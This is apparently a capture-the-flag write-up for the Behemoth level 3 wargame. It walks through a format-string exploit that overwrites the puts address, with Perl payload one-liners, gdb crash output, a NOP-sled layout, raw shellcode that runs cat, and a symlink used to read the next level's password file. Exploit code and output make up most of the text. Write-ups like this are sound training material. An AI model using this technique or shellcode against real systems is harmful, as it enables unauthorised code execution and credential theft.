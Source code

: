 We are going to overwrite the puts command. With our own to show how this can work we will do the following.

Again we are going to be utilizing an input.txt file and Perl to create our test strings.
We break up the end of the string due to our own Perl code interpreting the format string.

{% highlight perl %}
perl -e 'print "\x90\x97\x04\x08"."-%6"."\$n"' > input.txt
{% endhighlight %}
Then run our application with our input. 
{% highlight bash %}
(gdb) run < input.txt
Starting program: /games/behemoth/behemoth3 < input.txt

Program received signal SIGSEGV, Segmentation fault.
0x00000005 in ?? ()

{% endhighlight %}

As predicated we overwrote the puts address with our own address that is 0x00000005. Now we are almost there we know that in order to point to our own shell code we must overwrite the upper and lower bounds of the address. Also we must inject and find our shell code so we have a correct address to jump to. To do this we will go ahead and write the upper bounds of the address to our string. The upper bound is 2 bytes more than the lower so our string now looks like the following.

{% highlight perl %}
perl -e 'print "\x90\x97\x04\x08"."\x92\x97\x04\x08"."-%6"."\$n"."-%7\$n"' > input.txt
{% endhighlight %}

{% highlight bash %}
(gdb) run < input.txt
Starting program: /games/behemoth/behemoth3 < input.txt

Program received signal SIGSEGV, Segmentation fault.
0x000a0009 in ?? ()
{% endhighlight %}

Now we are writing to both the 6th position in the stack and the 7th the upper and lower bounds of the new address.

We know we can write out a custom address now all we need to do is to create the full payload. We do this by doing a few things we are going to create a NOP sled of 64 bytes to give us some movement room. Then our payload. So format should look like this.

LowerRangeAddress<>UpperRangeAddress<>NOPSLED<>ShellCode<>FormatString

For the shell code we will be reusing our shellcode from the stack overflow. 
{% highlight bash %}
\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x62\x32\x70\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80
{% endhighlight %}

We know this shell code cats a file called /tmp/b2p so let’s go ahead and create a symlink for the password file called /tmp/b2p

{% highlight bash %}
behemoth3@melinda:/tmp/bh3$ ln -s /etc/behemoth_pass/behemoth4 /tmp/b2p
{% endhighlight %}
